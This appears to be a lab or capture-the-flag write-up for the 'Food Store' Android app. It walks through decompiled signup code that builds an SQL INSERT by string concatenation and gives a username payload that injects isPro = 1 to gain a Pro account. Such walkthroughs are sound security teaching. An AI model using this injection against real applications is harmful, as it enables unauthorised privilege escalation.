



# Food Store

## Objective

**Exploit a SQL Injection Vulnerability**: Your mission is to manipulate the signup function in the "Food Store" Android application, allowing you to register as a Pro user, bypassing standard user restrictions.

## Approach

- **Analyze the Signup Function**: Scrutinize the app's signup process for SQLi vulnerabilities.
- **Craft Malicious SQL Queries**: Develop SQL queries to manipulate the signup process and gain Pro user access.
- **Test and Validate**: Execute your SQLi strategies within the provided lab environment.

## Hints

- **Focus on Input Validation**: Pay attention to how user inputs are processed and validated in the signup function.
- **Code Review**: Examine the code using the reverse engineering tools to find the injection point.

## Reconnaissance

### Opening the App in JADX

From the `Approach` and `Hints` given to us, we can assume that the vulnerability is located inside the signup function/module. Let's search for this inside the app from JADX:



```java
/* JADX INFO: Access modifiers changed from: private */
public static final void onCreate$lambda$0(Signup this$0, View it) throws SQLException {
    Intrinsics.checkNotNullParameter(this$0, "this$0");
    EditText editText = this$0.username;
    EditText editText2 = null;
    if (editText == null) {
        Intrinsics.throwUninitializedPropertyAccessException("username");
        editText = null;
    }
    if (!(StringsKt.trim((CharSequence) editText.getText().toString()).toString().length() == 0)) {
        EditText editText3 = this$0.password;
        if (editText3 == null) {
            Intrinsics.throwUninitializedPropertyAccessException("password");
            editText3 = null;
        }
        if (!(StringsKt.trim((CharSequence) editText3.getText().toString()).toString().length() == 0)) {
            EditText editText4 = this$0.address;
            if (editText4 == null) {
                Intrinsics.throwUninitializedPropertyAccessException("address");
                editText4 = null;
            }
            if (!(StringsKt.trim((CharSequence) editText4.getText().toString()).toString().length() == 0)) {
                DBHelper dbHelper = new DBHelper(this$0);
                int i = 0;
                EditText editText5 = this$0.username;
                if (editText5 == null) {
                    Intrinsics.throwUninitializedPropertyAccessException("username");
                    editText5 = null;
                }
                String string = editText5.getText().toString();
                EditText editText6 = this$0.password;
                if (editText6 == null) {
                    Intrinsics.throwUninitializedPropertyAccessException("password");
                    editText6 = null;
                }
                String string2 = editText6.getText().toString();
                EditText editText7 = this$0.address;
                if (editText7 == null) {
                    Intrinsics.throwUninitializedPropertyAccessException("address");
                } else {
                    editText2 = editText7;
                }
                User newUser = new User(i, string, string2, editText2.getText().toString(), false, 1, null);
                dbHelper.addUser(newUser);
                Toast.makeText(this$0, "User Registered Successfully", 0).show();
                return;
            }
        }
    }
    Toast.makeText(this$0, "Please fill in all fields", 0).show();
}
```

In this part of the `onCreate$lambda$0` method:

```java
User newUser = new User(i, string, string2, editText2.getText().toString(), false, 1, null);
dbHelper.addUser(newUser);
Toast.makeText(this$0, "User Registered Successfully", 0).show();
```

There is a call to `dbHelper` class to add a new user when we sign up/register using its `addUser` method. Let's check out this method:


```java
public final void addUser(User user) throws SQLException {
    Intrinsics.checkNotNullParameter(user, "user");
    SQLiteDatabase db = getWritableDatabase();
    byte[] bytes = user.getPassword().getBytes(Charsets.UTF_8);
    Intrinsics.checkNotNullExpressionValue(bytes, "this as java.lang.String).getBytes(charset)");
    String encodedPassword = Base64.encodeToString(bytes, 0);
    String Username = user.getUsername();
    byte[] bytes2 = user.getAddress().getBytes(Charsets.UTF_8);
    Intrinsics.checkNotNullExpressionValue(bytes2, "this as java.lang.String).getBytes(charset)");
    String encodedAddress = Base64.encodeToString(bytes2, 0);
    String sql = "INSERT INTO users (username, password, address, isPro) VALUES ('" + Username + "', '" + encodedPassword + "', '" + encodedAddress + "', 0)";
    db.execSQL(sql);
    db.close();
}
```

This part of the method:

```java
String sql = "INSERT INTO users (username, password, address, isPro) VALUES ('" + Username + "', '" + encodedPassword + "', '" + encodedAddress + "', 0)";
```

It is vulnerable to SQL Injection because the values are not parameterized. Let's test by giving a `'` for the username and then sign up:



Once we send this sign up payload, the app will crash:



This will only happen if we put `'` as username, not for password and address because they are base64 encoded. Also, the isPro is boolean based.

## Exploitation

From the SQL Injection attack surface we found, we can use this payload for the username when we sign up:

```sql
dimas', '', 'address', 1); --
```

This will trigger the isPro into true in boolean. After the payload is sent, we should be able to have the Pro account.

<video src="./videos/food-store.mp4" controls width="720"></video>
<p><a href="./videos/food-store.mp4">Download the video</a></p>